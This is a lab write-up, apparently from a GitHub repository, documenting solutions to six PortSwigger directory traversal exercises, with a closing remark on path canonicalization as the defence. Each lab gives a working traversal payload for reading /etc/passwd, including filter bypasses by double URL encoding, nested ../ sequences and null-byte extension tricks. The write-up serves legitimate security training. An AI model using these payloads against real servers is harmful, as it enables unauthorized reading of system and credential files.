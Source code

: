 # Directory Traversal

Directory traversal is a web security vulnerability that allows attackers to read, write or modify arbitary files on the server that is running an application. 

<i> [portswigger.net](url) has an amazing compilation of CTF style Directory Traversal lab exercises. Each lab contains a file path traversal vulnerability. I have documented the solution to lab exercise. </i>

**GOAL** : Exploit the `file traversal vulnerability` and get `/etc/passwd` file

**TOOLS** : Burpsuit (*It is easlier to modify parameters and send requests from repeater tab*)


## LAB 1
Given that there is a file traversal vulnerability, it is fairly straight forward to try to traverse back. <br>
../etc/passwd <br>
../../etc/passwd<br>
../../../etc/passwd<br>

> Filename should be set to ../../../etc/passwd

***

## LAB 2 
*Traversal sequence blocked with absolute path bypass*<br>
Since traversal sequence is blocked, on trying `../../..` we get 400 Bad Request. I tried to directly give `/etc/passwd` as input, and it worked!!
> File should be set to /etc/passwd
***



## LAB 3
*Traversal sequences stripped non-recursively** <br>
Here the server stripes any `../` sequence, but not recursively so lets add `....//` instead of `../`

> File should be set to ....//....//....//etc/passwd
***

## LAB 4
*Traversal sequences stripped with superfluous URL-decode*<br>
Next attempt is to URL encode our parameter

Useful URL encoding :<br>
/ - %2f<br>
. - %2e<br>
% - %25<br>

I tried with all combinations ../ with single URL encoding, and it didn't work.<br>
I tried with encoding ../ twice<br>
%252f worked - 2f is ecoding of "/", and 25 is encoding of "%"<br>

> File should be set to ..%252f..%252f..%252fetc/passwd
***

## LAB 5
*validation start of path*<br>

Next attempt with start set to /var/www/images/ and then traversing to root
> File should be set to /var/www/images/../../../etc/passwd
***

## LAB 6
*validation of file extension*<br>

The next attempt is to add NULL charater and then add the expected extention
> File should be set to ../../../etc/passwd%00.png
***
***

### I think canonicalizing the file path and then performing validation will prevent all above explained File directory attacks
***
